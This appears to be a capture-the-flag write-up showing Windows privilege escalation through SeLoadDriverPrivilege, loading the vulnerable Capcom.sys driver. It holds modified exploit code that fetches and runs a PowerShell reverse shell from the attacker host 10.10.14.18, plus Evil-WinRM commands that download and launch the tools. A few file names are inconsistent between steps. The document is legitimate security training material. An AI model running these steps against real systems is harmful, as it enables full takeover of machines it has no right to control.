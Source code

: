 # 20 - PrivEsc

# SeLoadDriverPrivilege is enabled.

![](vx_images/4568802159080.png)


SeLoadDriverPrivilege is a dangerous privilege because drivers execute in kernel mode.  See [this](https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) article in order to understand why it is a dangerous privilege. <br /><br />Basically, we need the following tools:


* [Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) is a vulnerable driver but signed by microsoft.
* [EoPLoadDriver ](https://github.com/TarlogicSecurity/EoPLoadDriver) prepares the environment to load the driver. 
* [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) will exploit the vulnerability in Capcom.sys.

I compiled the repositories in Visual Studio 2019.  By default, ExploitCapcom executes cmd.exe on a new window, this has to go because we don't have gui access.

# ExploitCapcom.cpp
```c++
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    TCHAR Commandargv[] = TEXT("cmd.exe /c powershell \"IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.18/rev.ps1')\"");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, Commandargv, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

We want to modify this function to download Invoke-PowerShellTcp.ps1 and execute it.


# Copy the binaries to FUSE
```powershell
*Evil-WinRM* PS C:\Users\svc-print\Documents> IWR http://10.10.14.18/Capcom.sys -outfile Capcom.sys
*Evil-WinRM* PS C:\Users\svc-print\Documents> IWR http://10.10.14.18/EopLoadDriver.exe -outfile EoPLoadDriver.exe
*Evil-WinRM* PS C:\Users\svc-print\Documents> IWR http://10.10.14.18/ExploitCapcom.exe -outfile ExploitCapcom.exe
```

# Load the driver and execute
```powershell
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\EoPLoaderDriver.exe System\\CurrentControlSet\\MyService C:\\Users\\svc-print\\Documents\\Driver.sys
*Evil-WinRM* PS C:\Users\svc-print\Documents> .\ExploitCapcom.exe
```

![](vx_images/3903149159080.png)
